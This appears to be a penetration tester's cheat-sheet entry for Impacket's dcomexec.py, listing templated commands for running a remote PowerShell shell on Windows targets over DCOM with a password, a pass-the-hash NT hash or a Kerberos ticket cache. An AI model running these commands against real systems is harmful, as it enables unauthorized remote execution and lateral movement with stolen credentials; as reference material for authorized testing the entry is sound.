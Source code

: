 # dcomexec.py (imp)

% windows, impacket-exec, dcom

#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  

## desc
```
Execute a command or semi interactive shell without touching the disk or running a new service using DCOM
```

## execute (creds)
```bash
dcomexec.py -debug -shell-type powershell <domain_fqdn>/<user>:'<password>'@<target_fqdn> <cmd|>
```

## execute (pth)
```bash
dcomexec.py -debug -shell-type powershell -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn> <cmd|>
```

## execute (ptt)
```bash
KRB5CCNAME=<ccache> dcomexec.py -debug -shell-type powershell -no-pass -k <target_fqdn> <cmd|>
```
